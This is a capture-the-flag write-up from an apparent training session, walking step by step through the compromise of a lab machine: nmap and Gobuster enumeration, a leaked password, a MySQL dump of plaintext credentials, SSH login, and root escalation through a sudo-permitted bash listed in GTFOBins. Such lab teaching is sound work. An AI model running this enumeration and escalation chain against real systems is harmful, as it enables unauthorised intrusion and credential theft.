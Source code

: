 
### Session : Attacking Common Services II and Basic Linux Privilege Escalation

![logo](assets/image.png)

We ran an `nmap` scan as usual to check the open ports in this machine before attacking :

```
┌──(dest1ny㉿kali-linux-2022-2)-[~]
└─$ nmap -sC -sV 45.79.77.201  
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-06 23:26 +0530
Nmap scan report for 45-79-77-201.ip.linodeusercontent.com (45.79.77.201)
Host is up (0.26s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 61:86:b2:7a:2d:e4:25:a0:e6:33:3a:d3:42:f9:97:81 (RSA)
|   256 2a:dd:f9:7f:f8:8b:80:ee:23:39:79:a0:cf:e8:fe:6f (ECDSA)
|_  256 44:56:9d:0c:9e:1b:f6:fb:0f:09:ad:ce:3f:e5:0a:90 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Landing Page - Start Bootstrap Theme
3306/tcp open  mysql   MySQL 8.0.35-0ubuntu0.20.04.1
| ssl-cert: Subject: commonName=MySQL_Server_8.0.35_Auto_Generated_Server_Certificate
| Not valid before: 2024-01-06T17:54:24
|_Not valid after:  2034-01-03T17:54:24
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.35-0ubuntu0.20.04.1
|   Thread ID: 19
|   Capabilities flags: 65535
|   Some Capabilities: InteractiveClient, SupportsLoadDataLocal, p done: 1 IP address (1 host up) scanned in 194.42 seconds
```

We found that :
- Port 80 runs `Apache httpd 2.4.41` Webserver
- Port 3306 runs `MySQL 8.0.35-0ubuntu0.20.04.1` 


To enumerate Port 80, we used a web browser and visited the ip address of the machine and was able to see a website that has been taken down :

![Image1](assets/image1.png)

We then bruteforced for directories using `Gobuster` tool to find any hidden directories that can be useful and was able to find a directory named `/news` :

```
┌──(dest1ny㉿kali-linux-2022-2)-[~]
└─$ gobuster dir -u http://45.79.77.201/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://45.79.77.201/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/news                 (Status: 301) [Size: 311] [--> http://45.79.77.201/news/]
```

We then visited that directory `/news` and was able to see a `.txt` file :
![Image2](assets/image2.png)

We opened that text file and was able to see a message : 
![Image3](assets/image3.png)
```
Dear hareen, Due to a recent cyberattack to our company, our company database got leaked. I was able to see that your password was gymislife. Please change it asap to avoid any kids hacking us! - Admin
```

We found some Credentials for the `mysql` service to login - `hareen:gymislife`

We used the below commands to connect to the `MySQL` service on the machine and see the contents of the tables and grab the data available :
```
mysql -h 45.79.77.201 -u hareen -p
show databases;
use users;
select * from credentials;
exit;
```

![Image4](assets/image4.png)
We were able to see 4 credentials we can use to login to the machine :
```mysql
select * from credentials;

+---------+----------------+
| user    | password       |
+---------+----------------+
| chami   | ilovepuppies   |
| destiny | capybaraislife |
| hareen  | gymislife      |
| vinuk   | switchisbetter |
+---------+----------------+
```

We tried all the credentials and was successful with the login `chami:ilovepuppies` to login to the machine :
```
ssh chami@{Machine_IP}
```

We were able to see that we are the user `chami` and we were in the `/home/chami` directory by using the `whoami` and `pwd` commands. And finally we were able to capture the `user` flag.

![Image5](assets/image5.png)

We had a question saying to find a file named `backup.txt` in our questions. So we used the `find` command with the `-name` tag to search for the file and was able to see that it inside a hidden directory and we used the `cat` command to view the contents of the file.

Note : In linux systems, Hidden files has a `.` in front of the file name. 

```
chami@localhost:~$ find -name backup.txt
./.backup/backup.txt
chami@localhost:~$ cat ./.backup/backup.txt
LNBTI{G00d_j0b_f1nd1ng_m3}
```

Optional :
We just checked what we have inside the hidden `.backup` directory using the `ls -la` command. We were able to see lots of random text files inside the directory. We were able to find our `backup.txt` file fast because we used the `find` command.
![Image6](assets/image6.png)

### Privilege Escalation

We used the `sudo -l` command to see what the user `chami` can run as `root`. 

Note : We use the `sudo` command to do the actions of the root. It's like forcing/commanding to do something by a king.

We were able to see that `/bin/bash` can be run as sudo for the user `chami` :

![Image7](assets/image7.png)
We went to the https://gtfobins.github.io/gtfobins/bash/#shell and was able to see a exploit string that we can use to escalate our privileges to root :

![[Screenshot 2024-01-06 at 11.42.13 PM.png]]

We used the command and was able to access the `root` account and go to the `/root` directory and grab the `root` flag.
![Image8](assets/image8.png)

---

To Complete this box :
- You need the basic understanding of SQL commands.
- An idea about Linux Privilege Escalation.
- Ability to use Gobuster.

Notes :
- GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems. It is widely used by Pentesters/ Security Professsionals for Linux Privilege Escalation purposes.
- Gobuster is used to Bruteforce/Fuzz for any hidden directories, parameters,subdomains and so on.

